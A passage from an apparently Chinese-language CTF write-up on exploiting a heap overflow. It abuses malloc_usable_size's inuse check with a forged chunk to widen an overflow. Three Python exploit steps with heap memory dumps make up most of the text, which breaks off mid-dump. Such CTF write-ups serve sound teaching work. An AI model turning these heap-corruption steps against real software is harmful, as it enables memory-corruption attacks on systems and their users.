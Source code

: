 &nbsp&nbsp&nbsp&nbsp 分析malloc_usable_size的源码，首先调用inuse 来检查传入的chunk是否处于使用状态，检查方式为查看与当前chunk相邻的下一个chunk上size字段的p位为是否为1，如果chunk处于使用状态，返回值为chunk->size - SIZE_SZ。如果结合Add功能的堆溢出漏洞来修改chunk->size并伪造一个相邻chunk来满足inuse 检查的话，我们可以在Edit功能里实现长度更长的堆溢出。

step 1:
```python
add('A', 'A', '-32')   #chunk 0
add('B', 'B', 0x10)    #chunk 1
fake = p64(0)*3
fake += p32(0x71)      #fake chunk
add(fake, 'C', 0x48, 0)#chunk 2
```
```plain
0x1fad000:	0x0000000000000000	0x0000000000000021  <-- chunk 0
0x1fad010:	0x0000000000000041	0x0000000000000000
0x1fad020:	0x0000000000000000	0x0000000000000041  <-- chunk 1
0x1fad030:	0x0000000000000042	0x0000000000000000
0x1fad040:	0x0000000000000000	0x0000000000000000
0x1fad050:	0x0000000000000042	0x0000000000000000
0x1fad060:	0x0000000000000000	0x0000000000000071  <-- chunk 2
0x1fad070:	0x0000000000000043	0x0000000000000000
0x1fad080:	0x0000000000000000	0x0000000000000000
0x1fad090:	0x0000000000000000	0x0000000000000000
0x1fad0a0:	0x0000000000000000	0x0000000000000071  <-- fake chunk
0x1fad0b0:	0x0000000000000000	0x0000000000000000
0x1fad0c0:	0x0000000000000000	0x0000000000000000
0x1fad0d0:	0x0000000000000000	0x0000000000020f31  <-- top chunk
```
step 2:
```python
delete(0) #free chunk 0
payload = 'A' * 8*3
payload += p32((0x40*2) + 0x1)
payload += chr(0)*2
add('A', payload, '-32', 0) #overwrite chunk1->size
```
```plain
0x1fad000:	0x0000000000000000	0x0000000000000021  <-- chunk 0
0x1fad010:	0x4141414141414141	0x4141414141414141
0x1fad020:	0x4141414141414141	0x0000000000000081  <-- chunk 1's size is modified
0x1fad030:	0x0000000000000042	0x0000000000000000
0x1fad040:	0x0000000000000000	0x0000000000000000
0x1fad050:	0x0000000000000042	0x0000000000000000
0x1fad060:	0x0000000000000000	0x0000000000000071  <-- chunk 2
0x1fad070:	0x0000000000000000	0x0000000000000000
0x1fad080:	0x0000000000000000	0x0000000000000000
0x1fad090:	0x0000000000000000	0x0000000000000000
0x1fad0a0:	0x0000000000000000	0x0000000000000071  <-- fake chunk 
														chunk1 + chunk1->size = fake chunk
														fake chunk->size & PREV_INUSE == 0x01
														bypass the inuse() check
0x1fad0b0:	0x0000000000000000	0x0000000000000000
0x1fad0c0:	0x0000000000000000	0x0000000000000000
0x1fad0d0:	0x0000000000000000	0x0000000000020f31
```
step 3:
```python
payload = 'B' * 0x8*5
edit(1, payload)# overwrite chunk 2
```
```plain
0x1fad000:	0x0000000000000000	0x0000000000000021  <-- chunk 0
0x1fad010:	0x4141414141414141	0x4141414141414141
0x1fad020:	0x4141414141414141	0x0000000000000081  <-- chunk 1
0x1fad030:	0x0000000000000042	0x0000000000000000
0x1fad040:	0x0000000000000000	0x0000000000000000
```